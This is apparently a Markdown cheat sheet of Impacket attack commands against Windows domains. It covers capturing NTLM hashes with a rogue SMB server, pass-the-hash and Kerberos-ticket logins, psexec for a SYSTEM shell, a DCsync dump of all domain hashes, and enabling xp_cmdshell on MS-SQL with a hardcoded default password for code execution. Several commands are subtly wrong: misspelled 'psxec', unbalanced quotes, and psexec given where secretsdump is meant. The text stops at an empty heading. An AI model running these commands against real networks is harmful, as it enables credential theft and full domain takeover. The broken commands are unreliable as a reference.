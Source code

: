 
Impackets is an invaluable library of python-based exploitation tools.  The library also reuses a lot of authentication methods and syntax, so in a lot of cases you can get away with simply changing the specific impacket command being ran without needing to change any parameters.

On Kali Linux, the impacket library is in your path by default and each python script is prefaced with "impacket-" for more intuitive usage.

```shell
# Example Usage of Raw Library
python3 psexec.py <domain>/<username>:'<password'@<target>

# Example Usage on Kali Linux
impacket-psexec <domain>/<username>:'<password'@<target>
```

### impacket-smbserver
---
Create a simple unauthenticated SMB server that can host files and capture the NTLM hash of visitors.

```shell
# Host Current Directory
impacket-smbserver <share_name> -smb2support .

# Host Specified Directory
impacket-smbserver <share_name> -smb2support <path_to_serve>

# Path to Share
# \\<ip_addr>\<share_name>\<hosted_files>
```

### impacket-smbclient
---
Connect to a workstation via SMB and attempt to interact with with available shares. (Requirements: Valid user credentials.)

```shell
# Smbclient via Password
impacket-smbclient <domain>/<username>:'<password'@<target>

# Smbclient via Pass-the-Hash
impacket-smbclient <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Smbclient via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-smbclient <domain>/<username>@<target> -k -no-pass

# Common Commands             : cat, ls, cd, mkdir, rmdir
# List Available Shares       : shares
# Mount Share                 : use <share_name>
# Upload File                 : put <local_filename>
# Download File               : get <remote_filename>
# Download All Files from PWD : mget <match_mask>
# Change the User's Password  : password
# Return Host Information     : info
```

### impacket-psexec
---
Acquire a SYSTEM level shell via exploiting write privileges in the default ADMIN$ share. (Requirements: Credentials for a user with SMB write privileges to the ADMIN$ share.)

```shell
# Psexec via Password
impacket-psxec <domain>/<username>:'<password'@<target>

# Psexec via Pass-the-Hash
impacket-psexec <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Psexec via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-psexec <domain>/<username>@<target> -k -no-pass

# Optional: add a specific command to execute (default: cmd.exe)
impacket-psxec <domain>/<username>:'<password>'@<target> '<command_to_execute>'

# Return Help                    : help
# Execute Local Commands         : !<local_command>
# Upload Files to Temp Directory : lput <local_file> Temp
```

### impacket-secretsdump
---
Perform a DCsync attack on a Domain Controller and dump all user and machine hashes within the domain. (Requirements: Domain Administrator Privileges)

```shell
# DCsync via Password
impacket-psxec <domain>/<domain_admin>:'<password>'@<target_dc> > <outfile.txt>

# DCsync via Pass-the-Hash
impacket-secretsdump <domain>/<domain_admin>@<target_dc> -hashes <ntlm>:<ntlm> > <outfile.txt>

# DCsync via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-secretsdump <domain>/<domain_admin>@<target_dc> -k -no-pass > <outfile.txt>
```

### impacket-mssqlclient
---
Connect to a MS-SQL database. (Requirements: Valid DB user credentials.)

```shell
# Connect to MS-SQL Server
impacket-mssqlclient <username>:'<password>'@<target>

# Connect to MS-SQL Server via default SA creds
impacket-mssqlclient sa:'poiuytrewq'@<target>

# Enable XP_CMDSHELL for Remote Code Exection
> EXECUTE sp_configure 'show advanced options', 1;
> RECONFIGURE;
> EXECUTE sp_configure 'xp_cmdshell', 1;
> RECONFIGURE;
> xp_cmdshell '<command>'
```

### impacket-addcomputer
---
